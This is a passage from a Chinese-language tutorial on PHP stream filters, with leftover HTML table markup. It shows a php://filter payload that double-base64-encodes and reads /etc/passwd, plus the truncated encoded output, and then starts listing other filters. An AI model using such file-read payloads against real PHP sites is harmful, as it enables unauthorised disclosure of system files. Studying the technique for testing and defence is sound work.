 <table><tbody><tr><td width="414" valign="top" style="padding: 3pt 6pt 1.5pt;border-width: 1pt;border-color: rgb(222, 224, 227);background: rgb(245, 246, 247);"><p style="margin-top:6.0000pt;margin-bottom:6.0000pt;text-align:left;line-height:120%;"><span style="font-family:Consolas;line-height:120%;color:rgb(100,106,115);font-size:11.0000pt;">Plaintext</span><span style="font-family:Consolas;line-height:120%;color:rgb(100,106,115);font-size:11.0000pt;"><br/></span><span style="font-family:Consolas;line-height:120%;font-size:11.0000pt;">cm9vdDp4OjA6MDpyb290Oi9yb290Oi9iaW4vYXNoCmJpbjp4OjE6MTpiaW46L2Jpbjovc2Jpbi9u</span><span style="font-family:Consolas;line-height:120%;font-size:11.0000pt;"><br/></span><span style="font-family:Consolas;line-height:120%;font-size:11.0000pt;">b2xvZ2luCmRhZW1vbjp4OjI6MjpkYWVtb246L3NiaW46L3NiaW4vbm9sb2dpbgphZG06eDozOjQ6</span><span style="font-family:Consolas;line-height:120%;font-size:11.0000pt;"><br/></span><span style="font-family:Consolas;line-height:120%;font-size:11.0000pt;">...</span><span style="font-family:Consolas;line-height:120%;font-size:11.0000pt;"><br/></span><span style="font-family:Consolas;line-height:120%;font-size:11.0000pt;">Yi92bnN0YXQ6L2Jpbi9mYWxzZQpyZWRpczp4OjEwMjoxMDM6cmVkaXM6L3Zhci9saWIvcmVkaXM6</span><span style="font-family:Consolas;line-height:120%;font-size:11.0000pt;"><br/></span><span style="font-family:Consolas;line-height:120%;font-size:11.0000pt;">L2Jpbi9mYWxzZQo=</span><span style="font-family:Calibri;mso-fareast-font-family:宋体;mso-bidi-font-family:&#39;Times New Roman&#39;;font-size:10.5000pt;"><o:p></o:p></span></p></td></tr></tbody></table>  
您可以根据需要添加任意数量的过滤器。在这里，我要求 PHP   
对流进行两次   
base64   
编码：  
<table><tbody><tr><td width="414" valign="top" style="padding: 3pt 6pt 1.5pt;border-width: 1pt;border-color: rgb(222, 224, 227);background: rgb(245, 246, 247);"><p style="margin-top:6.0000pt;margin-bottom:6.0000pt;text-align:left;line-height:120%;"><span style="font-family:Consolas;line-height:120%;color:rgb(100,106,115);font-size:11.0000pt;">Plaintext</span><span style="font-family:Consolas;line-height:120%;color:rgb(100,106,115);font-size:11.0000pt;"><br/></span><span style="font-family:Consolas;line-height:120%;font-size:11.0000pt;">php://filter/convert.base64-encode|convert.base64-encode/resource=/etc/passwd</span><span style="font-family:Calibri;mso-fareast-font-family:宋体;mso-bidi-font-family:&#39;Times New Roman&#39;;font-size:10.5000pt;"><o:p></o:p></span></p></td></tr></tbody></table>  
我得到：  
<table><tbody><tr><td width="414" valign="top" style="padding: 3pt 6pt 1.5pt;border-width: 1pt;border-color: rgb(222, 224, 227);background: rgb(245, 246, 247);"><p style="margin-top:6.0000pt;margin-bottom:6.0000pt;text-align:left;line-height:120%;"><span style="font-family:Consolas;line-height:120%;color:rgb(100,106,115);font-size:11.0000pt;">Plaintext</span><span style="font-family:Consolas;line-height:120%;color:rgb(100,106,115);font-size:11.0000pt;"><br/></span><span style="font-family:Consolas;line-height:120%;font-size:11.0000pt;">Y205dmREcDRPakE2TURweWIyOTBPaTl5YjI5ME9pOWlhVzR2WVhOb0NtSnBianA0T2pFNk1UcGlh</span><span style="font-family:Consolas;line-height:120%;font-size:11.0000pt;"><br/></span><span style="font-family:Consolas;line-height:120%;font-size:11.0000pt;">...</span><span style="font-family:Consolas;line-height:120%;font-size:11.0000pt;"><br/></span><span style="font-family:Consolas;line-height:120%;font-size:11.0000pt;">RXdNam94TURNNmNtVmthWE02TDNaaGNpOXNhV0l2Y21Wa2FYTTZMMkpwYmk5bVlXeHpaUW89</span><span style="font-family:Calibri;mso-fareast-font-family:宋体;mso-bidi-font-family:&#39;Times New Roman&#39;;font-size:10.5000pt;"><o:p></o:p></span></p></td></tr></tbody></table>  
显然，base64   
编码并不是您唯一能做的事情。还有许多过滤器可用。它们包括：  
  
•   
string.upper  
，将字符串转换为大写  
  
•   
string.lower  
，将字符串转换为小写  
  